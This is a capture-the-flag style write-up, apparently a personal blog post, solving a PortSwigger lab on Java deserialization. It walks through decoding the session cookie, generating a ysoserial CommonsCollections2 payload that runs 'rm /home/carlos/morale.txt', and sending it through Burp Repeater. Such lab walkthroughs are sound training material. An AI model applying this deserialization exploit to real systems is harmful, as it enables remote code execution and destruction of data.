






+++
author = "Blue Pho3nix"
title = "Exploiting Java Deserialization with Apache Commons"
categories = ["PortSwigger"]
tags = [ "Medium","Java Deserialization" ]
image = "categories/portswigger/portswigger-edit.png"
+++

</br>


## Description



> [This lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-Java-deserialization-with-apache-commons) uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains. <br> <br> To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.<br> <br> You can log in to your own account using the following credentials: `wiener:peter`

## Skill Learned

- Exploit Java deserialization using ysoserial</li>

# Solution

## Finding the vulnerability

We logged into the account using the provided credentials: `wiener:peter` and discovered a base64-encoded session cookie.

```bash
wiener:peter
```





We decoded the base64 of the session cookie and noticed that it begins with the `rO0` serialized Java object bytes. We saved it to a file called `java-d`. Turns out it's a Java serialization data version 5 file and it's not zipped.

Out of curiosity, We also ran `xxd` on it and found that it starts with the `ac ed` serialized Java object bytes.

<video width=100% controls autoplay>
<source src="img/9qjaflkfjaiofshaeg.webm" type="video/webm" />
<source src="img/9qjaflkfjaiofshaeg.mp4" type="video/mp4" />
</video>



## Exploitation

**Payloads**

> `base64` Base64 encode or decode FILE, or standard input,to standard output. <br> `tee` Copy standard input to each FILE, and also to standard output. <br> `file` Determine type of FILEs. <br> `xxd` xxd creates a hex dump of a given file or standard input.

```bash
echo '[your session cookie]' | base64 -d | tee java-d
```

```bash
file java-d
```

```bash
 cat java-d | xxd
```

**Wget ysoserial**

We `wget` the [ysoserial](https://github.com/frohoff/ysoserial) release (current at the time of writing this).



**Payload**

```bash
wget https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar
```

**Create Java serialized object exploit**

We encountered errors while running ysoserial. If you come across a similar issue, you can find a solution in the "Fix ysoserial Error" section below. After downgrading our Java version, we were able to get the payload to work.

The original cookie was URL and base64 encoded. We then encoded the payload in base64 and removed new lines using the `tr` command.

<video width=100% controls autoplay>
<source src="img/aoifnasfnaiuegaiufsb.webm" type="video/webm" />
<source src="img/aoifnasfnaiuegaiufsb.mp4" type="video/mp4" />
</video>

We use the `ysoserial` command with the chosen gadget chain (e.g., CommonsCollections2) and the desired command (`rm /home/carlos/morale.txt` to delete a file).

The payload is encoded in Base64, and newline characters are removed.

**Note:** We were able to complete the lab with the following gadget chains:

- CommonsCollections2
- CommonsCollections4

**Payload**

```bash
 java -jar ysoserial.jar [chosen gadget chain] '[command]'
```

> `tr` Translate, squeeze, and/or delete characters from standard input, writing to standard output.

```bash
 java -jar ysoserial-all.jar CommonsCollections2 'rm /home/carlos/morale.txt' | base64 | tr "\n" " "
```

**Send exploit in Burp**

We copied the payload and opened the `/my-account` request in Burp Repeater. Then we replaced the session cookie with our exploit and url encoded it before sending it to the server. We received a `500 error` in the response, but the exploit still worked, and Carlos's `morale.txt` got deleted.

<video width=100% controls autoplay>
<source src="img/lkfjsafDFHsaifbasiufbasd.webm" type="video/webm" />
<source src="img/lkfjsafDFHsaifbasiufbasd.mp4" type="video/mp4" />
</video>
        
## Errors when running ysoserial

We encountered errors when attempting to run ysoserial. During our troubleshooting process, We came across this [post](https://forum.portswigger.net/thread/ysoserial-stopped-working-b5a161f42f) suggesting that downgrading from Java 8 to 15 could resolve the issue. The post also mentioned that problems with ysoserial arise when using Java 16 and 17.

**Show errors**



**Check Java Version**

If your version is between 8 and 15, your errors may be related to something else. We would recommend searching for them on Google.

```bash
 java --version
```

**Downgrade Java on Linux**

> You're downgrading to Java 11. When downgrading, it's important to return to the previous version after completing the lab.

We tested `ysoserial` with `Java 11` on Linux for both AMD and ARM architectures.

**Install Java 11**

```bash
sudo apt update && sudo apt-get install openjdk-11-jdk
```

**Change Java version to Java 11**

We found [this video](https://www.youtube.com/watch?v=krixCjIQNt4) that shows how to change Java versions.

```bash
 sudo update-alternatives --config java
```

**Update and check current version**

In order for the version change to take effect, updating is necessary.

```bash
 sudo apt update
 java --version
```
